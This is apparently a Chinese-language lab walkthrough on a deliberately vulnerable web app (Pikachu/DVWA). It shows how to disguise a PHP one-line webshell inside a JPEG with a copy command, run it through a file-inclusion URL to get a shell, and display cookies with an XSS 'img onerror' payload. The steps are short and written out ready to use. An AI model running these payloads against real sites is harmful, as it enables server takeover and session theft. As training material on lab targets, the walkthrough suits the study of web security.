 我们需要将上传文件的文件头伪装成图片，首先利用`copy命令`将一句话木马文件`Hack.php`与正常的图片文件`ClearSky.jpg`合并：

【备注】以下为CMD下用copy命令制作“**图片木马**”的步骤，其中，`ClearSky.jpg/b`中“b”表示“**二进制文件**”，`hack.php/a`中“a"表示**ASCII码文件**。

```
copy 1.jpeg/b+xxb.php/a xxb.jpg
```

![image-20211224143014174](https://gitee.com/xxb667/img/raw/master/img/image-20211224143014174.png)

进入文件夹进行查看

![image-20211224143228549](https://gitee.com/xxb667/img/raw/master/img/image-20211224143228549.png)

用记事本打开图片

可以看到一句话木马已经嵌入进去

![image-20211224143446873](https://gitee.com/xxb667/img/raw/master/img/image-20211224143446873.png)

### 用蚁剑进行连接

```
http://192.168.1.9/06/vul/unsafeupload/uploads/xxb2.jpg
```

但是发现蚁剑连接不通，说明.php文件未嵌入成功。

![image-20211224162815473](https://gitee.com/xxb667/img/raw/master/img/image-20211224162815473.png)

#### 原因

**此时虽然图片马里面是含有PHP木马的，如果我们直接用中国蚁剑连接的话是不行的，因为他目前还是图片，只有服务器把它当作PHP文件解析的时候木马才行执行。**

### 结合文件上传漏洞getshell

由于只能用php 的file协议 所以我们构造的payload 为：

```
http://192.168.81.135/DVWA/vulnerabilities/fi/?page=file:///var/www/html/DVWA/hackable/uploads/m.jpg

```

直接在浏览器中打开

而且解析的图片马路径必须是绝对路径 ，相对路径读不出来。

![image-20211230102220450](https://gitee.com/xxb667/img/raw/master/img/image-20211230102220450.png)



在浏览器中查看一下，已经成功解析。

### cookie信息获得

```
<img src=x onerror=document.write(document.cookie)>
```
